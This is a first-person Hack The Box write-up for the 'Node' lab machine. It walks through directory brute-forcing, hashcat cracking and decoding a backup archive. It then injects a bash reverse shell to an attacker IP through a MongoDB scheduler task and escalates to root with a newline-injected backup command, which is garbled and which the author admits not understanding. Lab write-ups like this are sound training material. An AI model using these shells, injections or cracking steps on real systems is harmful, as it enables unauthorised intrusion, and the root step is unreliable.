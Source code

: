 # Node

This is my write-up for the machine on Hack The Box called **Node** located at: [https://app.hackthebox.com/machines/Node](https://app.hackthebox.com/machines/Node).

I started off with an nmap scan:

![](<../../.gitbook/assets/image (344).png>)

We see 2 ports open: one for SSH and one for a software known as hadoop-datanode. Port 3000 has a web server running on it:

![](<../../.gitbook/assets/image (347).png>)

I then ran **dirsearch** using the **directory-list-lowercase-2.3-medium.txt** from the dirbuster wordlist directory to see what folders/files I had access to:

`dirsearch -e php,html,js,cgi,bak,txt -u http://10.10.10.58:3000 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50`

This showed me the following:

![](<../../.gitbook/assets/image (370).png>)

I read up on [this write-up](https://alamot.github.io/node\_writeup/) which pointed me in the direction of using **burpsuite** in order to see requests incoming. I found one that was interesting and followed it:

![](<../../.gitbook/assets/image (341).png>)

These could be passwords or hashes. I tried the username with the passwords, and this did not work for me. Running the hash for **tom** in **hash-identifier** resulted in the following:

![](<../../.gitbook/assets/image (334).png>)

Running the other hashes resulted in **SHA-256** as well. Using the [hashcat examples website](https://hashcat.net/wiki/doku.php?id=example\_hashes), I then had to find out what the Hash-Mode was:

![](<../../.gitbook/assets/image (345).png>)

Running the hashcat command `hashcat -a 0 -m 1400 hashes rockyou.txt` got me the following:

![](<../../.gitbook/assets/image (348).png>)

It seems that I have cracked the passwords for the users **tom** and **mark**. When I login using those credentials, I get the same result:

![](<../../.gitbook/assets/image (350).png>)

Reading the same write-up from before, I missed the directory above from where I was located at:

![](<../../.gitbook/assets/image (368).png>)

This led me to find a new user: **myP14ceAdm1nAcc0uNT**. I then ran **hashcat** on the new hash (with a new wordlist - not needed, but I just did) and got the following:

![](<../../.gitbook/assets/image (369).png>)

Now we see a different output on the main screen:

![](<../../.gitbook/assets/image (366).png>)

Downloading the backup led me to a large ASCII file:

![](<../../.gitbook/assets/image (363).png>)

I noticed a "**=**" at the end, so I thought it could be base64. Decoding the file led me to a zip folder where the files were password protected:

![](<../../.gitbook/assets/image (367).png>)

Following the write-up mentioned above, I ran the command `cat myplace.backup | base64 -d > backup.zip` in order to make my own zip file. This gave me the same result that I had gotten earlier from using [https://www.base64decode.org/](https://www.base64decode.org) to decode the content of the document for me. I then uploaded zipped file on [this website](https://www.onlinehashcrack.com/tools-zip-rar-7z-archive-hash-extractor.php) and got the following output:

![](<../../.gitbook/assets/image (349).png>)

I will go back to the [example hashes site from hashcat](https://hashcat.net/wiki/doku.php?id=example\_hashes) to see what mode this would be:

![](<../../.gitbook/assets/image (335).png>)

I then ran the hashcat command `hashcat -a 0 -m 17230 pkziphash xato-net-10-million-passwords-1000000.txt` to see if I can crack the password:

![](<../../.gitbook/assets/image (339).png>)

I was then able to decode the zip by running `unzip backup.zip`. This created a new directory called **var** in my local directory. In a file called **app.js**, I found the following:

![](<../../.gitbook/assets/image (351).png>)

I was a bit lost about what to do with these credentials, I then read the same write-up again to find out that those credentials would work for **SSH**:

![](<../../.gitbook/assets/image (352).png>)

I also learned from the write-up to search for processes being run by tom:

![](<../../.gitbook/assets/image (343).png>)

I do not have a lot of experience with mongo commands work. Between the write-up I have been mentioning previously and [this write-up](https://dumbsec.ninja/htb-node-box-writeup.html) for this machine, I ran the following commands:

`mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k`

`db.tasks.insert({cmd: '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/1227 0>&1"'})`

I was then able to get a shell as tom:

![](<../../.gitbook/assets/image (342).png>)

I was then able to read the user.txt:

![](<../../.gitbook/assets/image (336).png>)

From the second write-up (previously mentioned), I learned about the following command, which got me directly to root using the backup process:

/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n' <4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n'

![](<../../.gitbook/assets/image (346).png>)

I will be honest. I have been looking at write-ups for this machine and they all seem to use buffer overflows in order to crack the command to get to the root user. I am a bit unsure how the previous command I used to get to root worked. From my understanding, it seems that the backup process was owned by root, and using the backup key, I was able to run the command. Again, not why why this command exactly.
